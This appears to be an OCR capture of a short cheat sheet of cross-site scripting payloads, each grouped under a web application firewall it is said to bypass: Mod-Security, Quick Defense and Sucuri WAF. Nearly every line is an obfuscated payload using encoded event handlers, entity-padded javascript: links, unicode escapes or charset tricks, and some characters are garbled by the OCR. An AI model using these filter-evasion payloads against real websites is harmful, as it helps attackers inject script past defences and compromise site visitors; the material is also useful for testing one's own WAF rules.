 ```none
<svg+onload=+"aler%25%37%34(1)"
--------------------------------------------------------------------
Mod-Security:
<a href="j[785 bytes of (&NewLine;&Tab;)]avascript:alert(1);">XSS</a>
1⁄4script3⁄4alert(¢xss¢)1⁄4/script3⁄4
<b/%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%35mouseover=alert(1)>
--------------------------------------------------------------------
Quick Defense:
<input type="search" onsearch="aler\u0074(1)">
<details ontoggle="aler\u0074(1)">
--------------------------------------------------------------------
Sucuri WAF:
1⁄4script3⁄4alert(¢xss¢)1⁄4/script3⁄4
--------------------------------------------------------------------
```


